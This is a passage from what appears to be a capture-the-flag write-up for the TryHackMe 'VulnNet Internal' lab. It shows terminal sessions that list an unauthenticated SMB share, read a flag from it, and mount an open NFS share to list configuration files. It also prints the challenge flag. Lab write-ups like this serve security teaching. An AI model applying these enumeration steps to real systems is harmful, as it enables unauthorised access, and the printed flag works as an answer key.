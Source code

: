 ~~~
┌──(kali㉿kali)-[/data/VulnNet_Internal]
└─$ smbclient //10.10.190.83/shares
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Feb  2 10:20:09 2021
  ..                                  D        0  Tue Feb  2 10:28:11 2021
  temp                                D        0  Sat Feb  6 12:45:10 2021
  data                                D        0  Tue Feb  2 10:27:33 2021

		11309648 blocks of size 1024. 3275768 blocks available
smb: \> cd temp
smb: \temp\> ls
  .                                   D        0  Sat Feb  6 12:45:10 2021
  ..                                  D        0  Tue Feb  2 10:20:09 2021
  services.txt                        N       38  Sat Feb  6 12:45:09 2021

		11309648 blocks of size 1024. 3275768 blocks available
smb: \temp\> get services.txt -
THM{0a09d51e488f5fa105d8d866a497440a}
getting file \temp\services.txt of size 38 as - (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
~~~

Services flag: `THM{0a09d51e488f5fa105d8d866a497440a}`

# What is the internal flag? ("internal flag")

*Hint: It's stored inside a database of one of the services.*

## NFS

The Nmap scan revealed a NFS share. We can connect without authentication:

~~~
┌──(kali㉿kali)-[/data/VulnNet_Internal/files]
└─$ mkdir tmp/

┌──(kali㉿kali)-[/data/VulnNet_Internal/files]
└─$ sudo mount -t nfs 10.10.190.83: tmp     
                                                                                                                     
┌──(kali㉿kali)-[/data/VulnNet_Internal/files]
└─$ tree tmp             
tmp
└── opt
    └── conf
        ├── hp
        │   └── hplip.conf
        ├── init
        │   ├── anacron.conf
        │   ├── lightdm.conf
        │   └── whoopsie.conf
        ├── opt
        ├── profile.d
        │   ├── bash_completion.sh
        │   ├── cedilla-portuguese.sh
        │   ├── input-method-config.sh
        │   └── vte-2.91.sh
        ├── redis
        │   └── redis.conf
        ├── vim
        │   ├── vimrc
        │   └── vimrc.tiny
        └── wildmidi
~~~